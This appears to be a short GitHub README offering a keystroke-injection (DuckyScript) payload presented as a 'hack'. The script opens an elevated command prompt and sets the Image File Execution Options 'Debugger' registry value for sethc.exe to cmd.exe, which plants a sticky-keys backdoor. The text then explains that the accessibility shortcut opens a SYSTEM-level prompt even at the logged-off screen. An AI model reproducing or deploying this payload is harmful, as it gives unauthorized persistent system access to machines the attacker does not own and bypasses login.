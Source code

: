 # DISCLAIMER
***
This command prompt will close automatically due to the way this hack works (after about 3 minutes or so)  
This hack does require pre work and does require administrator privileges to modify the registry.  

### Pre work
```
DELAY 400
ESCAPE
DELAY 200
CONTROL ESCAPE
DELAY 750
STRING cmd.exe /c "reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f"
DELAY 750
CTRL-SHIFT ENTER
DELAY 1000
ALT y
```
 
Left Alt + Left Shift + Print Screen to access the prompt.
Ok so that's the pre work done now when the users machine is logged off and you want to be able to execute commands or even if you just want to be able to execute commands as the system not as administrator all you need to do is press  
 Left Alt + Left Shift + Print Screen.  